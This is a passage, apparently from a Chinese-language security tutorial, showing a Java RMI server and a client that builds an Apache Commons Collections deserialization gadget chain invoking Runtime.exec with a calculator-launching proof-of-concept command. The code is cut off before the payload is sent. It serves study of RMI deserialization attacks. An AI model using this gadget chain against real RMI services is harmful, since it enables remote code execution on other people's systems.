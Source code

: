 服务端--`RmiServer`
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws RemoteException {
        // 创建远程对象
        UserInterface userClass = new UserClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称
        registry.rebind("user", userClass);
        System.out.println("RMI Server start...");
    }
}
```

客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
```